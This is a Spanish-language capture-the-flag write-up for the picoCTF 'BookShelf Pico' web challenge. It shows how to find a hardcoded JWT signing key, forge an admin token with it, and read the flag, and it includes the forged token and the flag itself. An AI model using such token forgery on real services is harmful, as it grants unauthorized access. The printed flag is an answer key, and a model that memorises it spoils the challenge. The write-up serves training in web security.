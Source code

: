 BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!
Additional details will be available after launching your challenge instance.
_______
## Hints
* Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
* The 'role' and 'userId' fields in the JWT can be of interest to you!
* The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
* Upgrade your 'role' with the _new_ (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.
____________
## Solución
Ingresar a la página
User: user
Password: user

Nos proporciona 3 libros, el que nos interesa es el que dice flag, que en estos momentos no podemos acceder por que no estamos como administradores.
A través de la  manipulación de tokens JWT accederemos como rol de administrador.

Le damos inspeccionar

Storage->Local Storage->http://saturn.picoctf.net:60488 ->auth-token

Copiamos el valorde auth-token: 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc0NTM3NTE4MywiaWF0IjoxNzQ0NzcwMzgzLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.MIqQxkfvm8klHOjTtBziF3WOID6BaBOppl2swfiTu44

Checando los archivos de código vemos que la **SECRET_KEY** es 1234

Utilizamos el sitio web https://supertokens.com/jwt-encoder-decoder# para decodificar y codificar tokens JWT.

Pegamos:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc0NTM3NTE4MywiaWF0IjoxNzQ0NzcwMzgzLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.MIqQxkfvm8klHOjTtBziF3WOID6BaBOppl2swfiTu44

Y modificamos; en role con el valor Admin, userId con el valor 2 y email con el vamor admin: 
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1745375183,
  "iat": 1744770383,
  "userId": 2,
  "email": "admin"
}

Y en signing key agregamos la llave que es 1234, quedando:
HMACSHA256( 
    base64UrlEncode(header) + "." +
    base64UrlEncode(payload),
	1234
)

Copiamos el token que se generó.
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NDUzNzUxODMsImlhdCI6MTc0NDc3MDM4MywidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.iRIzl6SW4b7ZebYxueP9CU3B8tgqViix5EBLYCpLC0c

Regresamos a la página en donde se estaba inspeccionando  y en auth-token pegamos el nuevo token.
En token-payload modificamos, en role con el valor Admin, userId con el valor 2 y email con el vamor admin, quedando: 
{"role":"Admin","iss":"bookshelf","exp":1745375183,"iat":1744770383,"userId":2,"email":"admin"}

Recargamos la pagina y sale la bandera:

Great job! Here’s your flag:
picoCTF{w34k_jwt_n0t_g00d_d72df65e}
